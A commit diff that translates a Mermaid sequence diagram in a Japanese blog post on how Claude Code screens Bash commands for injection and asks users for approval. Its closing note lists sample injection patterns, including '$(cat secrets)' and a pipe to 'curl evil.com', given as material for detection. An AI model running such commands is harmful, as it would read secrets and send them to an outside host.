

Before and after one commit to roboco-io/roboco-io.github.io: the sixth of 7 diagrams in content/ja/posts/claude-code-deep-dive.md, drawn with Mermaid. The commit also changed other lines of this file and 23 other files, not shown here.

Commit message:
content: localize translated images and Japanese Mermaid diagrams

````diff
--- a/content/ja/posts/claude-code-deep-dive.md
+++ b/content/ja/posts/claude-code-deep-dive.md
@@ -467,42 +467,42 @@
 ```mermaid
 sequenceDiagram
     participant C as Claude
     participant CC as Claude Code
-    participant Det as Prefix Detector<br/>(835 tokens)
-    participant U as User
-    participant Bash as Bash Shell
+    participant Det as プレフィックス検出器<br/>(835トークン)
+    participant U as ユーザー
+    participant Bash as Bashシェル
     
     C->>CC: Bashコマンドの実行を要求
     CC->>Det: コマンドの分析を要求
     
-    Det->>Det: 1. コマンドprefixの抽出<br/>例: "git commit" → "git commit"
+    Det->>Det: 1. コマンドプレフィックスの抽出<br/>例: "git commit" → "git commit"
     Det->>Det: 2. コマンドインジェクションの検知<br/>例: バッククォート、パイプラインの確認
     
     alt コマンドインジェクションを検知
         Det-->>CC: "command_injection_detected"
         CC->>U: ⚠️ セキュリティ警告と承認要求
         U-->>CC: 承認/拒否
         CC-->>C: 結果を伝達
     else 安全なコマンド
-        Det-->>CC: コマンドprefixを返却
+        Det-->>CC: コマンドプレフィックスを返却
         CC->>CC: 許可リストの確認
         
         alt 許可リストにある
             CC->>Bash: コマンドを実行
         else 許可リストにない
             CC->>U: 権限を要求
             U-->>CC: 承認/拒否
             alt 承認された
                 CC->>Bash: コマンドを実行
             else 拒否された
                 CC-->>C: 実行を拒否
             end
         end
         
         Bash-->>CC: 実行結果
         CC->>CC: システムリマインダーを追加
         CC-->>C: 結果 + リマインダー
     end
     
     Note over Det: インジェクションのパターン例:<br/>- バッククォート: `id`<br/>- コマンド置換: $(cat secrets)<br/>- パイプ: | curl evil.com
 ```
````
